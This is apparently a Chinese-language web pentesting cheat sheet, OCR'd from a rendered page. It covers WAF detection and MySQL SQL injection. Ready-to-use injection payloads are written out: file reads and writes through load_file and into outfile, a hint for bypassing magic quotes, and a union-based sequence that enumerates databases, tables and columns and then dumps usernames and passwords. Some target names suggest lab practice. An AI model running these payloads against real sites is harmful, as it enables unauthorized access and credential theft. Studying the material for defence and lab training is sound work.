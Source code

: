 **waf**
使用wafw00f工具检测


## Web漏洞

### sql注入漏洞

#### mysql注入
MYSQL5.0 以上版本：自带的数据库名 information_schema
information_schema：存储数据库下的数据库名及表名，列名信息的数据库
information_schema.schemata：记录库名信息的表
information_schema.tables：记录表名信息的表
information_schema.columns：记录列名信息表
获取相关数据：
1、数据库版本-看是否符合 information_schema 查询-version()   -5.5.532
2、数据库用户-看是否符合 ROOT 型注入攻击-user()       -root@localhost
3、当前操作系统-看是否支持大小写或文件路径选择-@@version_compile_os-win
4、数据库名字-为后期猜解指定数据库下的表，列做准备-database()    -syguestbook

load_file('route')  读取文件
union select 1,'x',3 into outfile 'route' 写入文件

**防注入**：
1. 魔术引号（magic_quotes_gpc） //HEX编码或宽字节绕过
2. 内置函数，int等
3. 自定义关键字，select等
4. WAF防护软件：安全狗，宝塔等


##### union联合注入

1.  **判断有无注入点**
老方法：
id=1 and 1=1 limit 0，1 正常
id=1 and 1=2 limit 0，1 错误
id=1 or 1=1 limit 0，1 正常
id=1 or 1=2 limit 0，1 正常

新方法：
id=1alsdfjel 错误
2. **判断字段数**
order by
3. **判断回显点**
union select 1，2，3，4 //要先使原先的查询语句不显示，如id=1 and 1=2 limit 0，1
4. **获取数据**
    - ?id=-1' union select 1,2,database() --+ //数据库名
    - ?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+ //所有数据库
    - ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+ 
    or
    ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+ //指定数据库中表名
    - ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='maoshe' and table_name='admin' --+ //指定数据库，表名的所有字段名
    - ?id=-1' union select 1,2,group_concat(username,password) from users --+ //具体数据

